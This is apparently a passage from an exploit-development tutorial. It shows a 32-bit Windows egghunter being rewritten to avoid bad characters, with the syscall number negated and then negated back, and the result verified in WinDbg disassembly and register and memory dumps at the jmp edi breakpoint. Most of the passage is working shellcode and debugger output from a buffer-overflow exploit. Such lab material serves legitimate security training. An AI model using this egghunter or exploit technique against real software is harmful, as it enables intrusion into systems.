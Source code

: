 We begin by substracting the value we want to obtain from 0x0. This will give us our number but in negative value.
If we negate the obtained value, we obtain a QWORD (64 bytes) but **because we are running on a 32 bit architecture, the result WE WANT will be stored in the lower DWORD of the total value (000001c9)**.

Therefore, we can replace this instruction:
```c
" push 0x1c9 ;"
```

for these ones:
```c
 # Push the system call number negated 
 " mov eax, 0xfffffe37;"  
# Negate it again  
" neg eax;"  
 # Initialize the call to NtAccessCheckAndAuditAlarm  
# " pop eax ;"
```

We don't want to pop EAX anymore, as we already have the value in EAX.
Let's check if the egghunter is mangled:
```c
0:008> u 0472ea8f L26
0472ea8f 90              nop
0472ea90 90              nop
0472ea91 90              nop
0472ea92 90              nop
0472ea93 90              nop
0472ea94 90              nop
0472ea95 6681caff0f      or      dx,0FFFh
0472ea9a 42              inc     edx
0472ea9b 52              push    edx
0472ea9c b837feffff      mov     eax,0FFFFFE37h
0472eaa1 f7d8            neg     eax
0472eaa3 cd2e            int     2Eh
0472eaa5 3c05            cmp     al,5
0472eaa7 5a              pop     edx
0472eaa8 74eb            je      0472ea95
0472eaaa b877303074      mov     eax,offset windows_storage!CImageManager::OnLoadOverlayCompleted+0x17 (74303077)
0472eaaf 89d7            mov     edi,edx
0472eab1 af              scas    dword ptr es:[edi]
0472eab2 75e6            jne     0472ea9a
0472eab4 af              scas    dword ptr es:[edi]
0472eab5 75e3            jne     0472ea9a
0472eab7 ffe7            jmp     edi
```

Fantastic, all of our egghunter does not contain badchars and is not mangled.
Now, let's put a breakpoint on the jmp edi instruction and see what does edi have:
```c
0:008> g
Breakpoint 1 hit
eax=74303077 ebx=001a2bf0 ecx=0472ea20 edx=04b38186 esi=001a2bf0 edi=04b3818e
eip=0472eab7 esp=0472ea24 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0472eab7 ffe7            jmp     edi {04b3818e}
0:008> dds edi
04b3818e  44444444
04b38192  44444444
04b38196  44444444
04b3819a  44444444
04b3819e  44444444
04b381a2  44444444
04b381a6  44444444
```